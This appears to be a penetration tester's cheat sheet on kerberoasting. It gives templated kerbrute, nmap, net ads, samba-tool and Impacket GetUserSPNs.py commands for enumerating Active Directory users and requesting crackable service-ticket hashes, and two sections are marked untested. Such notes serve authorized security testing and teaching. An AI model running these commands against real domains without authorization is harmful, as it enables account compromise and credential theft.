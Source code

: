 # Unix Shell

Search Tag(s): #kerberoasting

## 01 - Enumerate Users

### 1.1 - Kerbrute

Enumerate users against the active directory.

```
$ kerbrute userenum [--dc <IP>] -d <domain> users.lst [-t 64]
```

### 1.2 - Network Mapper

```
$ nmap -p 88 -Pn --script=krb5-enum-users --script-args krb5-enum-users.realm="<domain>",userdb=users.lst <IP>
```

## 02 - Enumerate SPN accounts

### 2.1 - `net`

TODO: Test it

```
$ net ads setspn setspn list [machine] -U "[<domain>/]<username>%<password>" -S <IP>

$ net ads setspn setspn list [machine] -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 2.2 - Impacket

Request a Kerberos 5 TGS-REP etype 23 hash from an SPN user account.

```
$ GetUserSPNs.py -request -dc-ip <IP> <domain>/<username>:"<password>"

$ GetUserSPNs.py -request -dc-ip <IP> <domain>/<username> -hashes :<nt_hash>

$ GetUserSPNs.py -request -dc-ip <IP> <domain> -usersfile users.lst
```

### 2.3 - `samba-tool`

TODO: Test it

```
$ samba-tool spn list
```

---
## References

### Github

- [Impacket](https://github.com/fortra/impacket)

- [Kerbrute](https://github.com/ropnop/kerbrute)

### Hacktricks

- [Pentesting Kerberos 88](https://book.hacktricks.wiki/en/pentesting/pentesting-kerberos-88.html)

### Hacking Articles

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

### Certcube

- [Certcube: Kerberoasting Common Tools](https://blog.certcube.com/kerberoasting-common-tools/)
